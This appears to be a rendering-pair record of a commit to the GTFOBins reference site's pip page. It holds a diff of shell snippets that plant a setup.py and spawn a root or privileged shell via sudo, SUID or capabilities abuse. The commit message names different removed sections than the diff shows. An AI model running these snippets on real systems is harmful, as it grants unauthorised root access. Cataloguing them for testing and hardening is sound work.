

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/pip.md, in a window 1280 px wide and 1400 px high, scrolled down 1749 px. Shown: the top 1372 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 2533 px from its top, so only the background shows below that.

Commit message:
Remove capabilities-enabled and sudo-enabled from pip

```diff
--- a/_gtfobins/pip.md
+++ b/_gtfobins/pip.md
@@ -66,19 +66,9 @@ functions:
         TF=$(mktemp -d)
         echo 'from ctypes import cdll; cdll.LoadLibrary("lib.so")' > $TF/setup.py
         pip install $TF
-  suid-enabled:
-    - code: |
-        TF=$(mktemp -d)
-        echo "import os; os.execl('/bin/sh', 'sh', '-p', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
-        ./pip install $TF
   sudo-enabled:
     - code: |
         TF=$(mktemp -d)
         echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
         sudo pip install $TF
-  capabilities-enabled:
-    - code: |
-        TF=$(mktemp -d)
-        echo "import os; os.setuid(0); os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
-        ./pip install $TF
 ---
```
